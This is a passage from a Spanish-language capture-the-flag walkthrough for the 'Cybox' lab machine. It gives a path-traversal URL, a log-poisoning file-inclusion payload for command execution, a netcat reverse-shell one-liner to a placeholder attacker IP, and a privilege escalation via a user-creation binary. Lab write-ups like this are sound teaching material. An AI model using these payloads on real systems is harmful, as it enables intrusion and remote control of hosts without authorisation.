 ```view-source:http://monitor.cybox.company/admin/styles.php?style=../../../../../../../../etc/paswd```
Y le damos forward

Si todo salió bien, podríamos ejecutar comandos a nivel sistema, cómo se ve en la imagen:

![21](/assets/img/sample/cybox/21.png)

así sería la sintáxis para poder ejecutar comandos en el sistema, URL: view-source:http://monitor.cybox.company/admin/styles.php?style=../../../../../../../opt/bitnami/apache2/logs/access_log%00?&c=ls -la

## Reverse Shell 

Ahora que tenemos nuestra Webshell, podemos ejecutar comandos a nivel sistema, es momento de plantar una reverse shell, más abajo les dejo una, pero para que funcione primero debemos codificarla para que sea admitida por la URL, para ellos utilizaremos Burpsuite

Reverse Shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.x.x 443 >/tmp/f

IMPORTANTE: recuerden cambiar la ip de la reverse shell por la de tun0 ;)

Ahora cómo se ve en la imagen, codificamos nuestra rev shell en encoder:

![22](/assets/img/sample/cybox/22.png)

Lo de abajo es nuestra reverse shell, CTRL + A para copiar todo

No ejecutarla aún!!!

Tenemos que poner netcat a la escucha, con el comando ```nc -lvnp 443```

![23](/assets/img/sample/cybox/23.png)

Y ahora si ejecutamos nuestra reverse shell, sí nos queda así cómo "cargando" es normal

Ahora nos vamos a netcat y vemos que tenemos nuestra conexión reversa:

![25](/assets/img/sample/cybox/25.png)

Podemos hacer nuestra shell full TTY para que sea más fácil moverse por la terminal

## Escalando Privilegios

Una vez dentro, podemos probar a buscar binarios SUID, con el comando ```find / -perm -u=s -type f 2>/dev/null```

![26](/assets/img/sample/cybox/26.png)

El directorio /opt/ se ve interesante

Ingresamos y vemos que hay un ejecutable para crear usuarios

Entonces este script lo que hace es crear un usuario y añadirlo al grupo con el mismo nombre, si nosotros nos creamos un usuario sudo, nos va a añadir al grupo sudo y ahí explotaríamos el fallo obteniendo la flag de root

![27](/assets/img/sample/cybox/27.png)

Hacemos un sudo -i y hacemos un cat para ver la flag ;)

![27](/assets/img/sample/cybox/28.png)

y también si queremos sacar el user, lo podemos hacer con un "find / | grep "user.txt"

```